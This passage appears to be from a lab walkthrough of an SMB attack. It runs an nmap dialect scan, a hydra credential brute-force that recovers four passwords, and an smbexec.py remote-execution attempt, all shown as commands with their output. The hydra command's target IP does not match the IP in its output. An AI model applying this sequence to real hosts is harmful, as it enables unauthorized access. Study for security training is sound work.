 _Refine the focus to the SMB service running on port 445 by enumerating supported SMB dialects to assist in selecting the correct exploitation technique._

`nmap --script smb-protocols 10.4.28.143 -p 445`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2024-08-20 18:27 IST
Nmap scan report for 10.4.28.143
Host is up (0.0092s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-protocols: ←
|   dialects: 
|     2.02
|     2.10
|     3.00
|     3.02
|_    3.11

Nmap done: 1 IP address (1 host up) scanned in 6.39 seconds
```

_Use `hydra`, a password-cracking tool, to brute-force SMB credentials using the specified dictionaries. This step is crucial for gaining access to the SMB service._

`hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.4.27.105 smb2`:
```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-20 18:29:02
[WARNING] Workgroup was not specified, using "WORKGROUP"
[DATA] max 16 tasks per 1 server, overall 16 tasks, 7063 login tries (l:7/p:1009), ~442 tries per task
[DATA] attacking smb2://10.4.28.143:445/
[445][smb2] host: 10.4.28.143   login: sysadmin   password: madison ←
[445][smb2] host: 10.4.28.143   login: demo   password: patrick
[445][smb2] host: 10.4.28.143   login: auditor   password: estrella
[445][smb2] host: 10.4.28.143   login: administrator   password: carolina ←
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-20 18:29:17
```

_Use `smbexec.py` to execute commands on the target machine using the compromised credentials. First, attempt to execute as `sysadmin`, then retry as `administrator` if access is denied._

`smbexec.py sysadmin:madison@10.4.28.143`:
```
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied ←
```
